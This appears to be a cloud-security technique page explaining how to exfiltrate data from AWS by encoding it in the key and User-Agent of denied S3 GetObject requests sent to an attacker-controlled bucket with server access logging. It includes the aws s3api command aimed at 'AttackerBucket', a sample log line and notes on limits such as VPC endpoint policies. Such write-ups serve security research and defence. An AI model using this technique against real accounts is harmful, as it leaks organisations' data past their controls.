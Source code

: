```yaml
---
author_name: Costas Kourmpoglou
title: S3 Server Access Logs 
description: Exfiltrate data via S3:GetObject and s3 server access logs
hide:
  - toc
---
```


Related Reading: [https://airwalkreply.com/cloud-services-as-exfiltration-mechanisms](https://airwalkreply.com/cloud-services-as-exfiltration-mechanisms)

# Intro

If we have control over an IAM identity that allows `s3:GetObject`, depending on the network access to the S3 service, we can use S3 server access logs to a bucket _we_ control, and use it to exfiltrate data.

With server access logging, every request to our S3 bucket will be logged to a separate logging bucket. This includes internal AWS requests, or requests made via the AWS console.
Even if a request is denied, the payload that the request is carrying, will be sent to our logging bucket. We can then send `GetObject` requests to s3 buckets, that we don't have access to, but because we control the server access logs, we will still receive the data that we want to exfiltrate in the first place.  
 

# How 

We'll create an S3 bucket, `AttackerBucket` in our account with [server access logging](https://docs.aws.amazon.com/AmazonS3/latest/userguide/ServerLogs.html).
Let's name the logging bucket `AttackerBucketLogs`.
With our data in hand `ExampleDataToExfiltrate`, we will send a `GetObject` request to our bucket, for example:

`aws s3api get-object --bucket AttackerBucket  --key ExampleDataToExfiltrate`

The request will be denied. However the attempt along with the other details, including our key `ExampleDatatoExfiltrate` - which is the data we're exfiltrating -  will arrive to our logging bucket `AttackerBucketLogs`.

We'll receive the data in the default logging format:

```
[..] attackerbucket […] 31.94.19.179 – […] REST.GET.OBJECT ExampleDataToExfiltrate "GET / ExampleDataToExfiltrate HTTP/1.1" 403 AccessDenied 243 - 18 - "-" "UserAgentAlsoHasData " – […]
```


We're exfiltrating data, using the Key parameter of the request. There's a hard limit of 1024 bytes per Key, but other request fields can be used like User-Agent.

# Challenges

There are two challenges with this method:

1. If the network access to the S3 service takes place over a VPC endpoint, then the policy of the VPC endpoint would need to allow access to our bucket.
The VPC endpoint will drop the request and will not forward it to the S3 service, if the policy doesn't allow it. The S3 service won't be able to generate logs, and we won't be able to exfiltrate data.

2. The logs are not guaranteed to arrive in order. If you're splitting data across multiple requests, you'll need to figure out a mechanism to re-order the data correctly.  

 
For the general usecase where network access to the S3 service takes place over the internet, there is a 10-120 minute delay, in the log delivery.
